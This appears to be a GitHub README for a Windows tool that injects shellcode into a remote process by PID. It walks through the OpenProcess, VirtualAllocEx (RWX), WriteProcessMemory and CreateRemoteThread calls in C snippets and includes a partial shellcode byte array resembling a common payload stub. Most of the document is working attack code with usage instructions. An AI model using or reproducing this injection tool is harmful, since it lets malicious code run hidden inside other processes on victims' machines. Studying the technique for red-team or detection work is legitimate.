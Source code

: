 # Remote Process Injection
## Overview
This tool is designed to inject shellcode into a remote process running on a Windows system. It takes the Process ID (PID) of the target process as a command-line argument, allocates memory in the target process, writes the shellcode to the allocated memory, and creates a remote thread to execute the shellcode.

## Usage
```
remoteprocessinjection.exe <PID>

```
<PID> The Process ID of the target process where the shellcode will be injected.

## Prerequisites
.Administrator privileges on the system.
.The tool must be executed on a Windows operating system.
.The target process must be accessible and should allow PROCESS_ALL_ACCESS.
## Key Components

### Shellcode
The my_shellcode array contains the machine code to be executed in the target process. This is where the user should place their custom shellcode.
```c
char my_shellcode[] = {
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
    // ... (rest of the shellcode)
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5"
};
```

### Opening the Target Process
The OpenProcess function is used to obtain a handle to the target process using the specified PID.

``` c
hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, PID);
```

### Allocating Memory in the Target Process
Memory is allocated in the target process using VirtualAllocEx.

```c
execution_memory = VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### Writing Shellcode to the Allocated Memory
The shellcode is written into the allocated memory space using WriteProcessMemory

``` c
if (!WriteProcessMemory(hProcess, execution_memory, my_shellcode, length, NULL)) {
    // Error handling
}
```
### Creating a Remote Thread
A remote thread is created to execute the shellcode in the target process using CreateRemoteThread.

``` c
hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)execution_memory, NULL, 0, 0);
```

## Error Handling
The tool checks for errors at each step (opening the process, allocating memory, writing to memory, creating a thread) and prints appropriate error messages with error codes using GetLastError.

## Example
To inject shellcode into a process with PID 1234:

``` cmd
remoteprocessinjection.exe 1234
```
